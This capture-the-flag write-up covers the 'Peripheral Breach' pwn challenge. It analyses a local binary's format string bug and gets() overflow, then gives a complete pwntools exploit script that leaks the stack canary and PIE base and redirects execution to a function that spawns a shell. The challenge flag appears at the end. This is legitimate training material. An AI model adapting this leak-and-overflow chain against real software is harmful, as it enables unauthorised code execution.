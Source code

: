 # Peripheral Breach - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:

![Alt text](gif/PeripheralBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for reverse engineering and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable, not stripped.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary is protected with:

- Full RELRO
- NX enabled
- PIE enabled
- Stack canary

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reversing the binary with IDA Pro reveals two key vulnerabilities in the functions `print_job()` and `schedule_job()` that can be chained for a successful exploit.

### 1. `print_job()` – Format String Vulnerability

```c
snprintf(s, 0x200uLL, "Confirm printing: %s from %s", a1, a2);
printf(s);
```

- User-controlled input is passed directly into `printf()` without a format string.
- This introduces a **format string vulnerability** that can leak:

  - The **stack canary**, required to bypass stack protection.
  - The **PIE base address**, necessary to defeat ASLR and locate internal functions or gadgets.

### 2. `schedule_job()` – Buffer Overflow via `gets()`

```c
gets(v3);
```

- The buffer `v3` is 264 bytes on the stack.
- Since `gets()` does **not perform bounds checking**, this results in a **classic stack-based buffer overflow**.
- However, since the binary uses a **stack canary**, the canary must first be leaked (via `print_job()`) to exploit this safely.
- After bypassing the canary, the return address can be overwritten to hijack control flow.

---

## How to Solve

1. Trigger the format string vulnerability in `print_job()` to **leak the stack canary and PIE base** using format specifiers (e.g. `%p`).
2. Compute the correct **base address of the binary** and locate useful functions like `maintain()`.
3. Craft a payload that **overflows the buffer** in `schedule_job()` while preserving the leaked canary.
4. Overwrite the return address to jump to the `maintain()` function, which calls `system("/bin/sh")`.

---

## Vulnerability Summary

- **Format String** in `print_job()` → Leak **stack canary** and **PIE base**.
- **Buffer Overflow** in `schedule_job()` → Overwrite return address after bypassing canary.
- **Canary + PIE + NX + Full RELRO** → Strong protections, but all bypassable due to format string leak.
- **Goal**: Redirect execution to `maintain()` → `system("/bin/sh")`.

---

## Exploit Strategy

1. Input a **format string** (e.g., `%39$p %107$p`) into the filename and URL prompts to leak both:

   - Stack canary
   - PIE address of `main()`

2. Compute the PIE base and calculate the absolute address of the `maintain()` function.
3. Prepare a payload for the `gets()`-based overflow:

   - Padding up to the canary (264 bytes)
   - The **correct leaked canary**
   - Return address pointing to `maintain()`

4. Gain a shell via `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()


io.sendlineafter(b'? ', b's')
io.sendlineafter(b'filename to print: ', b'%39$p %107$p')
io.sendlineafter(b'Enter URL: ', b'URL')

data = io.recvline_contains(b'Confirm printing:').strip()
leak_vals = data.split(b' from ')[0].split()
log.info(f"raw leaks: {leak_vals}")

canary = int(leak_vals[2], 16)
main = int(leak_vals[3], 16)
log.success(f"canary = {hex(canary)}")
log.success(f"main = {hex(main)}")

exe.address = main - exe.sym['main']
log.success(f"PIE base = {hex(exe.address)}")

maintain = exe.symbols['maintain']
log.success(f"maintain() = {hex(maintain)}")

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]


io.sendlineafter(b'Enter credentials: ', flat(
    b'A'*264,
    p64(canary),
    p64(ret),
    p64(ret),
    p64(maintain)
))


io.interactive()


```

---

## Result

After successful exploitation, the program executes:

```c
system("/bin/sh");
```

This gives us a shell to reveal the flag.

---

## FLAG

The flag will be displayed in the output after successful execution.

```
RedPointer{myp@ss!}
```
